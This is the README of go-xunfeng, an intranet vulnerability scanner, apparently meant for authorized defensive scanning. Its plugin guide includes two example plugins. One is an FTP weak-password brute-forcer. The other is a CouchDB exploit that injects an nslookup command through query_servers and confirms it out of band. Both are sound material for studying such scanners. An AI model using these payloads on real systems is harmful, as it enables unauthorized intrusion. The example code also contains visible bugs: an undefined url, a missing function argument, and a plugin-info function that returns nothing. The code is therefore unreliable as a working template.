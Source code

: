 # go-xunfeng
xunfeng by go

把`网络资产识别引擎`,`漏洞检测引擎`,`web服务`三个主体合并到一个main里面

----------

**巡风**是一款适用于企业内网的`漏洞快速应急、巡航扫描`系统，通过搜索功能可清晰的了解内部网络资产分布情况，并且可指定漏洞插件对搜索结果进行快速漏洞检测并输出结果报表。

**本软件只做初步探测，无攻击性行为。请使用者遵守《[中华人民共和国网络安全法](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)》，勿将巡风用于非授权的测试，YSRC/同程安全应急响应中心/同程网络科技股份有限公司不负任何连带法律责任。**

其主体分为两部分：`网络资产识别引擎`，`漏洞检测引擎`。

网络资产识别引擎会通过用户配置的IP范围`定期自动`的进行端口探测（支持调用MASSCAN），并进行指纹识别，识别内容包括：服务类型、组件容器、脚本语言、CMS。

漏洞检测引擎会根据用户指定的`任务规则`进行定期或者一次性的漏洞检测，其支持2种插件类型、标示符与脚本，均可通过web控制台进行添加。

## TODO

- [X] 网络资产识别引擎
- [X] web服务
- [ ] 漏洞检测引擎

## 安装指南

[![Golang 1.20.7](https://img.shields.io/badge/golang-1.20.7-yellow.svg)](https://go.dev/)
[![Mongodb 3.4.0](https://img.shields.io/badge/mongodb-3.4.0-blue.svg)](https://www.mongodb.com/download-center?jmp=nav)

* [Windows 安装指南](./docs/install/Windows.md)
* [OSX 安装指南](./docs/install/OSX.md)
* [Linux 安装指南](./docs/install/Linux.md)
* [Docker 安装指南](./docs/install/Docker.md)
* [Linux 一条命令安装](./docs/install/Linux_AutoInstall.md)

## 配置指南
- 在配置-爬虫引擎-网络资产探测列表 设置内网IP段**（必须配置，否则无法正常使用,每个IP段最大限制为10个B段）**。
- 在配置-爬虫引擎-资产探测周期 设置计划规则。
- 可启用MASSCAN(探测范围为全端口)代替默认的端口探测脚本，需安装好MASSCAN后配置**程序完整绝对路径**，点击开启即可完成切换。
  MASSCAN需chmod +x 给执行权限，并手动执行确保可正常运行后再开启。
- 其他配置根据自身需要进行修改。

## 插件编写
漏洞插件支持2种类型，json标示与python脚本，可以通过官方推送渠道安装或者自行添加。

**JSON标示符**

![](https://ysrc.github.io/static/img/xunfeng-json-plugin.png)

**Python脚本**

插件标准非常简洁，只需通过 `get_plugin_info` 方法定义插件信息，`check`函数检测漏洞即可。

```python
# coding:utf-8

import ftplib

def get_plugin_info():  # 插件描述信息
    plugin_info = {
        "name": "FTP弱口令",
        "info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
        "level": "高危",
        "type": "弱口令",
        "author": "wolf@YSRC",
        "url": "",
        "keyword": "server:ftp",  # 推荐搜索关键字
    }
    return plugin_info

def check(ip, port, timeout): # 漏洞检测代码
    user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
    for user in user_list:
        for pass_ in PASSWORD_DIC:  # 密码字典无需定义，程序会自动为其赋值。
            pass_ = str(pass_.replace('{user}', user))
            try:
                ftp = ftplib.FTP()
                ftp.timeout = timeout
                ftp.connect(ip, port)
                ftp.login(user, pass_)
                if pass_ == '': pass_ = 'null'
                if user == 'ftp' and pass_ == 'ftp': return u"可匿名登录"
                return u"存在弱口令，账号：%s，密码：%s" % (user, pass_)  # 成功返回结果，内容显示在扫描结果页面。
            except:
                pass
```

此外系统内嵌了辅助验证功能:

> DNS：触发，nslookup randomstr IP，验证， http://ip:8088/randomstr ，返回YES即存在。

> HTTP：触发，http://ip:8088/add/randomstr ，验证， http://ip:8088/check/randomstr ，返回YES即存在。

使用例子:

```python
import urllib2
import random
import socket

def get_plugin_info():  # 插件描述信息
    plugin_info = {
            "name": "CouchDB未授权访问",
            "info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
            "level": "高危",
            "type": "未授权访问",
            "author": "wolf@YSRC",
            "url": "",
            "keyword": "server:couchdb",  # 推荐搜索关键字
    }

def get_ver_ip(ip):
    csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    csock.connect((ip, 80))
    (addr, port) = csock.getsockname()
    csock.close()
    return addr

def random_str(len):
    str1=""
    for i in range(len):
        str1+=(random.choice("ABCDEFGH1234567890"))
    return str(str1)

def check(ip,port,timeout):
    rand_str = random_str(8)
    cmd = random_str(4)
    server_ip = get_ver_ip()
    req_list = [
        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
        ["/vultest123",''],
        ["/vultest123/test",'{"_id":"safetest"}']
    ]
    for req_info in req_list:
        try:
            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
            request.get_method = lambda: 'PUT'
            urllib2.urlopen(request)
        except:
            pass
    try:
        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
        req_exec.add_header("Content-Type","application/json")
        urllib2.urlopen(req_exec)
    except:
        pass
    check = urllib2.urlopen("http://%s:8088/%s"%(server_ip,rand_str)).read()
    if 'YES' in check:
        return u"未授权访问"
```

## 流程演示视频

[![](https://ysrc.github.io/static/img/intro.png)](https://ysrc.github.io/static/video/xunfeng.mp4)


## 文件结构

    │  config.py  # 配置文件
    │  README.md  # 说明文档
    │  run.bat  # Windows启动服务
    │  run.sh    # Linux启动服务，重新启动前需把进程先结束掉
    │
    ├─aider
    │      aider.py  # 辅助验证脚本
    │
    ├─db  # 初始数据库结构
    │
    ├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。
    ├─nascan
    │  │  nascan.py # 网络资产信息抓取
    │  │
    │  ├─lib
    │  │      common.py 其他方法
    │  │      icmp.py  # ICMP发送类
    │  │      log.py  # 日志输出
    │  │      mongo.py  # 数据库连接
    │  │      scan.py  # 扫描与识别
    │  │      start.py  # 线程控制
    │  │
    │  └─plugin
    │          masscan.py  # 调用Masscan脚本
    │
    ├─views
    │  │  web.py  # web启动
    │  │  view.py  # web请求处理
    │  │
    │  ├─lib
    │  │      Conn.py  # 数据库公共类
    │  │      CreateExcel.py  # 表格处理
    │  │      Login.py  # 权限验证
    │  │      QueryLogic.py  # 查询语句解析
    │  │
    │  ├─static #静态资源目录
    │  │
    │  └─templates #模板文件目录
    │
    └─vulscan
        │  vulscan.py  # 漏洞检测进程
        │
        └─vuldb # 漏洞库目录

## Stargazers over time
[![Stargazers over time](https://starchart.cc/medasz/go-xunfeng.svg?variant=adaptive)](https://starchart.cc/medasz/go-xunfeng)
